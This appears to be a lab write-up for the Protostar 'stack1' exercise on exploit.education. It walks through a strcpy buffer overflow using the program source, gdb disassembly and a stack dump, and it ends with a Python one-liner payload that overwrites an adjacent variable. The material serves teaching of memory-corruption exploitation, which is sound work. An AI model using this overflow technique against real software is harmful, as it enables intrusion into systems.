 ```
TL;DR -> `./stack1 $(python -c "print 'A'*64 + '\x64\x63\x62\x61'")`
```

# Stack1

URL: https://exploit.education/protostar/stack-one/
This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.

This level is at /opt/protostar/bin/stack1

Hints

- If you are unfamiliar with the hexadecimal being displayed, “man ascii” is your friend.
  Protostar is little endian

Source code

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

# Writeup

In stack1 we have to pass the argument while running th binary and it will check for the address. In short, we have to overflow the buffer and add the last address that is been compared.

```
user@protostar:/opt/protostar/bin$ gdb ./stack1
GNU gdb (GDB) 7.0.1-debian
Copyright (C) 2009 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i486-linux-gnu".
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>...
Reading symbols from /opt/protostar/bin/stack1...done.
(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
0x08048464 <main+0>:    push   ebp
0x08048465 <main+1>:    mov    ebp,esp
0x08048467 <main+3>:    and    esp,0xfffffff0
0x0804846a <main+6>:    sub    esp,0x60
0x0804846d <main+9>:    cmp    DWORD PTR [ebp+0x8],0x1
0x08048471 <main+13>:   jne    0x8048487 <main+35>
0x08048473 <main+15>:   mov    DWORD PTR [esp+0x4],0x80485a0
0x0804847b <main+23>:   mov    DWORD PTR [esp],0x1
0x08048482 <main+30>:   call   0x8048388 <errx@plt>
0x08048487 <main+35>:   mov    DWORD PTR [esp+0x5c],0x0
0x0804848f <main+43>:   mov    eax,DWORD PTR [ebp+0xc]
0x08048492 <main+46>:   add    eax,0x4
0x08048495 <main+49>:   mov    eax,DWORD PTR [eax]
0x08048497 <main+51>:   mov    DWORD PTR [esp+0x4],eax
0x0804849b <main+55>:   lea    eax,[esp+0x1c]
0x0804849f <main+59>:   mov    DWORD PTR [esp],eax
0x080484a2 <main+62>:   call   0x8048368 <strcpy@plt>
0x080484a7 <main+67>:   mov    eax,DWORD PTR [esp+0x5c]
0x080484ab <main+71>:   cmp    eax,0x61626364
0x080484b0 <main+76>:   jne    0x80484c0 <main+92>
0x080484b2 <main+78>:   mov    DWORD PTR [esp],0x80485bc
0x080484b9 <main+85>:   call   0x8048398 <puts@plt>
0x080484be <main+90>:   jmp    0x80484d5 <main+113>
0x080484c0 <main+92>:   mov    edx,DWORD PTR [esp+0x5c]
0x080484c4 <main+96>:   mov    eax,0x80485f3
0x080484c9 <main+101>:  mov    DWORD PTR [esp+0x4],edx
0x080484cd <main+105>:  mov    DWORD PTR [esp],eax
0x080484d0 <main+108>:  call   0x8048378 <printf@plt>
0x080484d5 <main+113>:  leave
0x080484d6 <main+114>:  ret
End of assembler dump.
(gdb) r $(python -c "print 'A'*64")
Starting program: /opt/protostar/bin/stack1 $(python -c "print 'A'*64")
Try again, you got 0x00000000

Program exited with code 036.
(gdb)
(gdb)
(gdb)
(gdb)
(gdb)
(gdb) break *0x080484ab
Breakpoint 1 at 0x80484ab: file stack1/stack1.c, line 18.
(gdb) r $(python -c "print 'A'*64")
Starting program: /opt/protostar/bin/stack1 $(python -c "print 'A'*64")

Breakpoint 1, 0x080484ab in main (argc=2, argv=0xbffff814) at stack1/stack1.c:18
18      stack1/stack1.c: No such file or directory.
        in stack1/stack1.c
(gdb) x/24x $esp
0xbffff700:     0xbffff71c      0xbffff951      0xb7fff8f8      0xb7f0186e
0xbffff710:     0xb7fd7ff4      0xb7ec6165      0xbffff728      0x41414141
0xbffff720:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff730:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff740:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff750:     0x41414141      0x41414141      0x41414141      0x00000000
```

Here, we have set the break point before compare execution and checked the stack using `x/24x $esp` and from that we can see that, we have reached the last byte of buffer, now we just have to append the address in the stack. Therefore adding `\x64\x63\x62\x61` will add the address in the last byte and that will be compared with the modified value.

Payload: `python -c "print 'A'*64 + '\x64\x63\x62\x61'"`

---

One liner solution:
`./stack1 $(python -c "print 'A'*64 + '\x64\x63\x62\x61'")`
